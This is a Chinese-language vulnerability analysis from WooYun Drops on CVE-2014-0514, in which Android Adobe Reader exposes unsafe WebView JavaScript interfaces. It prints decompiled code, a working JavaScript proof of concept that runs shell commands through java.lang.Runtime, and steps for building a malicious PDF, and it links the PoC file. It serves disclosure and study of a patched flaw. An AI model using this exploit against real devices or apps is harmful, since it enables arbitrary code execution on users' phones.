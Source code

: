 # Android Adobe Reader 任意代码执行分析(附 POC)

2014/04/18 14:05 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 描述

* * *

前几天老外在 fd 还有 exploit-db 上，公布了 Adobe Reader 任意代码执行的漏洞。

漏洞编号： [CVE: 2014-0514](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0514)

AdobeReader 安装量比较大，又和浏览器容器不同，分析一下。

Android Adobe Reader 调用 webview 的不安全的 Javascript interfaces。

导致可以执行任意 js 代码。具体查看[WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)。

影响版本：

理论上 Android Adobe Reader 11.2.0 之前的版本多存在，Android version 11.1.3 成功利用。

我查看了之前的几个版本例如 Android Adobe Reader 11.1.2 如下图，问题也应该存在。

![enter image description here](img/img1_u119_png.jpg)

## 0x01 利用

* * *

从反编译出来的 java 代码看

```
public class ARJavaScript
{
[...]

   public ARJavaScript(ARViewerActivity paramARViewerActivity)
   {
[...]
      this.mWebView.addJavascriptInterface(new ARJavaScriptInterface(this), "_adobereader");
      this.mWebView.addJavascriptInterface(new ARJavaScriptApp(this.mContext), "_app");
      this.mWebView.addJavascriptInterface(new ARJavaScriptDoc(), "_doc");
      this.mWebView.addJavascriptInterface(new ARJavaScriptEScriptString(this.mContext), "_escriptString");
      this.mWebView.addJavascriptInterface(new ARJavaScriptEvent(), "_event");
      this.mWebView.addJavascriptInterface(new ARJavaScriptField(), "_field");
      this.mWebView.setWebViewClient(new ARJavaScript.1(this));
      this.mWebView.loadUrl("file:///android_asset/javascript/index.html");
   }

```

`_adobereader，_app，_doc，_escriptString，_event，_field`这几个变量都会存在任意代码执行的问题.

利用代码和之前一样。

```
function execute(bridge, cmd) {
   return bridge.getClass().forName('java.lang.Runtime')
      .getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}

if(window._app) {
   try {
      var path = '/data/data/com.adobe.reader/mobilereader.poc.txt';
      execute(window._app, ['/system/bin/sh','-c','echo \"Lorem ipsum\" > ' + path]);
      window._app.alert(path + ' created', 3);
   } catch(e) {
      window._app.alert(e, 0);
   }
}

```

这里不同是构造 恶意的 PDF。

首先需要一个 PDF 编辑器，比如 Adobe Acrobat（flash 达人 pz 推荐）.

然后添加表单按钮或者书签等，调用事件添加

![enter image description here](img/img2_u85_jpg.jpg)

我这里看了下 button 最好演示，和老外的那个 poc 一样基本上.

导入到 android 虚拟机里，打开，成功复现。

![enter image description here](img/img3_u94_png.jpg)

## 0x02 扩展

* * *

一些网盘或浏览器，看看能否调用 adobe reader 来预览 pdf 的应用可能会存在这个漏洞，大部分应用都是直接下载 pdf 到本地。可以再测试一些能预览 pdf 的邮箱之类的应用。

## 0x03 修复

* * *

新版本的 Adobe Reader 11.2.0 为 4.2 以上的用户使用了安全的 js 调用接口 @JavascriptInterface，老版本的用户则在 adobereader 禁用了表单的 js 执行。 不知道那些杀毒软件能不能检测到这些恶意 poc 呢 :）

附上[poc.pdf](http://static.wooyun.org/20141017/2014101711445669638.pdf)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)
*   [CVE-2014-1806 .NET Remoting Services 漏洞浅析](http://drops.wooyun.org/papers/3993)
*   [Android Logcat Security](http://drops.wooyun.org/tips/3812)
*   [Samsung S Voice attack](http://drops.wooyun.org/tips/2736)
*   [Android Activtity Security](http://drops.wooyun.org/tips/3936)
*   [Android uncovers master-key 漏洞分析](http://drops.wooyun.org/papers/219)